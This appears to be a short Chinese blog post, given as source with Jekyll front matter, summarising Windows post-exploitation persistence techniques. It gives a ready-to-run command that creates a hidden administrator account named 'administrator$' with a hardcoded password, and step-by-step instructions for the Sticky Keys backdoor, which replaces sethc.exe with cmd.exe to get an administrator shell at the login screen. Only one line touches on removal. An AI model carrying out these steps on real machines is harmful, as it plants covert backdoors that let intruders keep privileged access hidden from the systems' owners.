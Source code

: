 ```yaml
---
layout: post
title: "后渗透之权限维持学习&&总结"
subtitle: "后渗透之权限维持学习&&总结"
date: 2019-08-13
author: ppbibo
category: APT攻击
finished: true
---
```

[TOC]

**PS：**后渗透之权限维持学习&&总结



## 0x1 匿名用户

```bash
net user administrator$ woaijiushi /add && net localgroup administrators administrator$ /add
```

PS：通过在用户后面添加$符号的形式将用户达到隐藏的效果。

*可以通过注册表或直接用户管理删除隐藏的用户。*



## 0x2 Shift 后门

1. 将 `C:\WINDOWS\system32\dllcache\sethc.exe` 删除，这个文件夹中放着缓存，如果不删除就会自动变回去。
2. 删除 `C:\WINDOWS\system32\` 下的 sethc.exe 文件。
3. 重命名  `C:\WINDOWS\system32\`  下的 cmd.exe 为 sethc.exe 。
4. 按下 5下 shift 即可弹出管理权限的 DOS 窗口。

![tiquan0](/static/img/weiquan0.png)
